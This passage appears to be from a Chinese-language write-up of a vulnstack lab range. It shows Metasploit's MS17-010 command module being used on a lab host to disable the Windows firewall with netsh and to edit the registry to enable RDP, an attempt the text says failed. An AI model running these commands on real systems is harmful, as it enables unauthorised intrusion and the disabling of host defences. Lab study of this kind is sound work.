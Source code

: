 <br>

使用`auxiliary/admin/smb/ms17_010_command`针对MS17010漏洞执行远程命令进行关闭防火墙

> 关闭防火墙的Dos命令: `netsh advfirewall set allprofiles state off`
>
> 查看防火墙状态的Dos命令: `netsh advfirewall show allprofiles`

```
msf5 > use auxiliary/admin/smb/ms17_010_command  #使用ms17010远程命令执行模块

msf5 auxiliary(admin/smb/ms17_010_command) > set rhosts 192.168.52.138  #设置目标主机ip

msf5 auxiliary(admin/smb/ms17_010_command) > set command netsh advfirewall set allprofiles state off #设置远程执行的命令(此处命令是关闭防火墙)

msf5 auxiliary(admin/smb/ms17_010_command) > run #开启攻击
```

<img src="vulnstack靶场系列一/image-20221016162727360.png" alt="image-20221016162727360" style="zoom:67%;" />	

<br>

执行远程命令开启3389端口(远程服务), 发现远程服务开启失败

```
msf5 auxiliary(admin/smb/ms17_010_command) > set command REG ADD HKLM\SYSTEM\CurrentControlSet\Control\Terminal" "Server /v fDenyTSConnections /t REG_DWORD /d 00000000 /f

msf5 auxiliary(admin/smb/ms17_010_command) > run
```

